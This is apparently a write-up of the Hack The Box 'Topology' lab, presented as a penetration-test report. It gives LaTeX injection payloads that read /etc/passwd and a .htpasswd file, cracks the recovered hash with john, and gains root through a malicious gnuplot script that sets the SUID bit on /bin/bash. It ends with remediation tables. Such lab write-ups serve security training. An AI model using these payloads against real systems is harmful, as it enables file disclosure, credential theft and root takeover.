

# Nmap 7.93 scan initiated Fri Jun 16 11:22:25 2023 as: nmap -A -p- -oN nmapResults.txt -T5 -v 10.10.11.217
Nmap scan report for 10.10.11.217
Host is up (0.026s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 3072 dcbc3286e8e8457810bc2b5dbf0f55c6 (RSA)
| 256 d9f339692c6c27f1a92d506ca79f1c33 (ECDSA)
|_ 256 4ca65075d0934f9c4a1b890a7a2708d7 (ED25519)
80/tcp open http Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Miskatonic University | Topology Group
| http-methods:
|_ Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Jun 16 11:22:42 2023 -- 1 IP address (1 host up) scanned in 16.57 secondsLet’s take a look at the website :
We have an email address which gives us a potential username(lklein) and a domain name (topology.htb). Also, there is a hyperlink (LaTeX Equation Generator) that redirects us to http://latex.topology.htb/equation.php.
Let’s add the domain and the virtual host we just found to our /etc/hosts file :
┌──(kali㉿kali)-[~/…/HTB/CTF/Easy/Topology]
└─$ cat /etc/hosts
127.0.0.1 localhost gitea.searcher.htb
127.0.1.1 kali
::1 localhost ip6-localhost ip6-loopback
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
10.10.11.217 topology.htb latex.topology.htbLet’s enumerate other virtual hosts using Gobuster :
┌──(kali㉿kali)-[~/…/HTB/CTF/Easy/Topology]
└─$ gobuster vhost -u http://topology.htb/ -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-110000.txt --append-domain
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url: http://topology.htb/
[+] Method: GET
[+] Threads: 10
[+] Wordlist: /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-110000.txt
[+] User Agent: gobuster/3.5
[+] Timeout: 10s
[+] Append Domain: true
===============================================================
2023/06/17 08:17:03 Starting gobuster in VHOST enumeration mode
===============================================================
Found: dev.topology.htb Status: 401 [Size: 463]
Found: stats.topology.htb Status: 200 [Size: 108]We found two other virtual hosts. Let’s add them to our /etc/hosts file :
┌──(kali㉿kali)-[~/…/HTB/CTF/Easy/Topology]
└─$ cat /etc/hosts
127.0.0.1 localhost gitea.searcher.htb
127.0.1.1 kali
::1 localhost ip6-localhost ip6-loopback
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
10.10.11.217 topology.htb latex.topology.htb dev.topology.htb stats.topology.htbThe second one does not seems to be useful for an attacker. But the first one (dev.topology.htb) requires us to authenticate using a Basic Authentication :
The credentials for basic authentication on an Apache webserver are commonly found in the .htpasswd file at the root of the virtual host. If we want to find credentials for this virtual host, we will need to find a way to read arbitrary files on the web server.
Let’s take a look at http://latex.topology.htb/equation.htb :
We can enter LaTeX equations in a field and generate a PNG from it. Here is an example with \frac{52}{142+y} :
Since we can enter LaTeX code in this field, we may be able to inject malicious LaTeX code to read arbitrary files. Let’s try to read /etc/passwd with the following payload :
\newread\file
\openin\file=/etc/passwd
\read\file to\line
\text{\line}
\closein\fileIt gives us this PNG :
So we are able to read arbitrary files. This payload can only read the first line of a file, but we don’t need to read more lines if we want to read the .htpasswd file in the dev virtual host. By default, the root of the dev virtual host should be located in /var/www/dev/. Let’s try to read this file with the following payload :
\newread\file
\openin\file=/var/www/dev/.htpasswd
\read\file to\line
\text{\line}
\closein\fileIt gives us this response :
We have an error. This could be due to the “$” signs in the hash in the .htpasswd file since those characters have a special meaning in LaTeX. They are used to start and finish math mode. If we take a look at the root of the latex virtual host, we can find something interesting :
We can see the equationtest.tex file. It contains a LaTeX script. Let’s take a look at it :
┌──(kali㉿kali)-[~/…/HTB/CTF/Easy/Topology]
└─$ cat ~/Downloads/equationtest.tex
\documentclass{standalone}
\input{header}
\begin{document}
$ \int_{a}^b\int_{c}^d f(x,y)dxdy $
\end{document}From this file, we can deduce that our input on the equation.php page will be inserted between two “$” signs. Let’s take for example this hash :
$apr1$rvk6cUzh$iYXx6JO0dG3.gOtFm1cRX0If this type of hash is contained in the file we are trying to read, it will be interpreted like so :
\documentclass{standalone}
\input{header}
\begin{document}
$ $apr1$rvk6cUzh$iYXx6JO0dG3.gOtFm1cRX0 $
\end{document}In LaTeX, if we open math mode with a dollar sign, we need to close it or it will cause an error. Here, we can see that there is an odd number of dollar signs. This may be the cause of the error when we try to read /var/www/dev/.htpasswd. To avoid this error, we need to add an extra dollar sign after we append the content of .htpasswd in our payload :
\newread\file
\openin\file=/var/www/dev/.htpasswd
\read\file to\line
\line$
\closein\fileIt gives us this PNG :
We successfully read the content of /var/www/dev/.htpasswd. Since the dollar signs are interpreted as math mode start and stop, they are missing from the output. Since the dollar signs are always at the same place in this type of hash, we can take example on another hash of the same type (apr1) to place the missing dollar signs. It gives us the following hash :
┌──(kali㉿kali)-[~/…/HTB/CTF/Easy/Topology]
└─$ cat hash.txt
$apr1$1ONUB/S2$58eeNV[HIDDEN]Let’s try to crack this hash :
┌──(kali㉿kali)-[~/…/HTB/CTF/Easy/Topology]
└─$ john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
Warning: detected hash type "md5crypt", but the string is also recognized as "md5crypt-long"
Use the "--format=md5crypt-long" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (md5crypt, crypt(3) $1$ (and variants) [MD5 128/128 AVX 4x3])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
[HIDDEN] (?)
1g 0:00:00:06 DONE (2023-06-17 08:57) 0.1506g/s 149956p/s 149956c/s 149956C/s calebd1..caitlyn09
Use the "--show" option to display all of the cracked passwords reliably
Session completed.Now we have the credentials for the Basic Authentication on the dev virtual host. But we can try to use those credentials to login via SSH :
┌──(kali㉿kali)-[~/…/HTB/CTF/Easy/Topology]
└─$ ssh vdaisley@10.10.11.217
vdaisley@10.10.11.217's password:
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.4.0-150-generic x86_64)
Expanded Security Maintenance for Applications is not enabled.
0 updates can be applied immediately.
Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status
The list of available updates is more than a week old.
To check for new updates run: sudo apt update
vdaisley@topology:~$Now we have a foothold on the system as vdaisley.
Let’s take a look at the running processes using pspy :
vdaisley@topology:~$ wget http://10.10.14.3/pspy64
--2023-06-17 09:01:18-- http://10.10.14.3/pspy64
Connecting to 10.10.14.3:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3104768 (3.0M) [application/octet-stream]
Saving to: ‘pspy64’
pspy64 100%[=====>] 2.96M 7.88MB/s in 0.4s
2023-06-17 09:01:18 (7.88 MB/s) - ‘pspy64’ saved [3104768/3104768]
vdaisley@topology:~$ chmod +x pspy64
vdaisley@topology:~$ ./pspy64
pspy - version: v1.2.1 - Commit SHA: f9e6a1590a4312b9faa093d8dc84e19567977a6d
██▓███ ██████ ██▓███ ▓██ ██▓
▓██░ ██▒▒██ ▒ ▓██░ ██▒▒██ ██▒
▓██░ ██▓▒░ ▓██▄ ▓██░ ██▓▒ ▒██ ██░
▒██▄█▓▒ ▒ ▒ ██▒▒██▄█▓▒ ▒ ░ ▐██▓░
▒██▒ ░ ░▒██████▒▒▒██▒ ░ ░ ░ ██▒▓░
▒▓▒░ ░ ░▒ ▒▓▒ ▒ ░▒▓▒░ ░ ░ ██▒▒▒
░▒ ░ ░ ░▒ ░ ░░▒ ░ ▓██ ░▒░
░░ ░ ░ ░ ░░ ▒ ▒ ░░
░ ░ ░
░ ░
Config: Printing events (colored=true): processes=true | file-system-events=false ||| Scanning for processes every 100ms and on inotify events ||| Watching directories: [/usr /tmp /etc /home /var /opt] (recursive) | [] (non-recursive)
Draining file system events due to startup...
done
2023/06/17 09:01:36 CMD: UID=1007 PID=5955 | ./pspy64
2023/06/17 09:01:36 CMD: UID=1007 PID=5893 | -bash
2023/06/17 09:01:36 CMD: UID=1007 PID=5892 | sshd: vdaisley@pts/0
2023/06/17 09:01:36 CMD: UID=1007 PID=5847 | /usr/bin/dbus-daemon --session --address=systemd: --nofork --nopidfile --systemd-activation --syslog-only
2023/06/17 09:01:36 CMD: UID=113 PID=5828 | /usr/libexec/rtkit-daemon
2023/06/17 09:01:36 CMD: UID=1007 PID=5807 | /usr/bin/pulseaudio --daemonize=no --log-target=journal
[CROPPED]
2023/06/17 09:02:01 CMD: UID=0 PID=5972 | gnuplot /opt/gnuplot/loadplot.plt
2023/06/17 09:02:01 CMD: UID=0 PID=5971 | find /opt/gnuplot -name *.plt -exec gnuplot {} ;
2023/06/17 09:02:01 CMD: UID=0 PID=5970 | /bin/sh -c find "/opt/gnuplot" -name "*.plt" -exec gnuplot {} \;
2023/06/17 09:02:01 CMD: UID=0 PID=5969 | /usr/sbin/CRON -f
2023/06/17 09:02:01 CMD: UID=0 PID=5968 | /usr/sbin/CRON -f
2023/06/17 09:02:01 CMD: UID=0 PID=5978 | cut -d -f3,7
2023/06/17 09:02:01 CMD: UID=0 PID=5977 | tr -s
2023/06/17 09:02:01 CMD: UID=0 PID=5976 | /bin/sh /opt/gnuplot/getdata.sh
2023/06/17 09:02:01 CMD: UID=0 PID=5974 | /bin/sh /opt/gnuplot/getdata.sh
2023/06/17 09:02:01 CMD: UID=0 PID=5982 | /bin/sh /opt/gnuplot/getdata.sh
2023/06/17 09:02:01 CMD: UID=0 PID=5981 | /bin/sh /opt/gnuplot/getdata.sh
2023/06/17 09:02:01 CMD: UID=0 PID=5980 | /bin/sh /opt/gnuplot/getdata.sh
2023/06/17 09:02:01 CMD: UID=0 PID=5979 | uptime
2023/06/17 09:02:01 CMD: UID=0 PID=5985 | gnuplot /opt/gnuplot/networkplot.pltIt looks like the root user is repeatedly running the command find /opt/gnuplot -name *.plt -exec gnuplot {} ;. It finds every .plt files in /opt/gnuplot and runs them with gnuplot. Let’s see what permissions we have on /opt/gnuplot :
vdaisley@topology:~$ ls -la /opt/
total 12
drwxr-xr-x 3 root root 4096 May 19 13:04 .
drwxr-xr-x 18 root root 4096 Jun 12 10:37 ..
drwx-wx-wx 2 root root 4096 Jun 14 07:45 gnuplotWe have write permissions in /opt/gnuplot.
We can write a malicious .plt file that will execute a system command to set the SUID bit on /bin/bash to gain a shell as root since we can execute system commands with gnuplot :
vdaisley@topology:~$ echo 'system("chmod +s /bin/bash")' > /opt/gnuplot/exploit.plt
vdaisley@topology:~$ chmod +x /opt/gnuplot/exploit.pltNow, we need to wait till the root user runs the command again. After waiting some times, let’s take a look at the permissions on /bin/bash :
vdaisley@topology:~$ ls -la /bin/bash
-rwsr-sr-x 1 root root 1183448 Apr 18 2022 /bin/bashThe SUID bit was successfully activated on /bin/bash. Now we can spawn a shell as root :
vdaisley@topology:~$ bash -p
bash-5.0# whoami
root| Step | Tracks to remove |
|---|---|
| Post-exploitation - Privilege escalation | - Remove SUID from /bin/bash - Remove exploit.plt in /opt/gnuplot/ |
| Post-exploitation - Local enumeration | - Remove pspy64 from /home/vdaisley |
| Field | Value |
|---|---|
| Affected component | Web server |
| CVSS 3.0 score | 7.5 |
| Severity | HIGH |
| Attack vector | Network |
| Impact |
Allows an attacker to partially read arbitrary files. This can lead to sensitive informations disclosure. During the assessment, we found the password hash of a local user. This has a high impact on the confidentiality of the affected component. |
| Remediation proposition |
Add filters to user input in the request made to equation.php. For example, create a whitelist of all authorized commands. Or you could set up a blacklist containing the malicious commands used during the assessment (\newread, \openin, \read). |
| Field | Value |
|---|---|
| Affected component | Local system |
| CVSS 3.0 score | 6.2 |
| Severity | MEDIUM |
| Attack vector | N/A |
| Impact |
Allows an attacker to crack the password hash found with the previous vulnerability. This has a high impact on the confidentiality of the affected component. |
| Remediation proposition | Set up a strong password policy |
| Field | Value |
|---|---|
| Affected component | Local system |
| CVSS 3.0 score | 6.2 |
| Severity | MEDIUM |
| Attack vector | Network |
| Impact |
Allows an attacker to log in via SSH since the HTTP password is the same as the vdaisley local user password. This has a high impact on the confidentiality of the affected component. |
| Remediation proposition | Set up a strong password policy |
| Field | Value |
|---|---|
| Affected component | Local system |
| CVSS 3.0 score | 7.8 |
| Severity | HIGH |
| Attack vector | Local |
| Impact |
Allows an attacker to execute a malicious .plt file leading to an arbitrary os command execution. This has a high impact on the confidentiality, integrity, and availability of the affected component. |
| Remediation proposition |
If user vdaisley does not need write permissions in /opt/gnuplot, remove write permissions in this directory. Else, set up a blacklist to avoid executing .plt files if they contain the system command. |
| Tool | Purpose |
|---|---|
| Nmap | - Scan for open ports - Scan services versions |
| Gobuster | - Fuzz virtual hosts |
| John | - Crack password hashes |
| Pspy | - List running processes |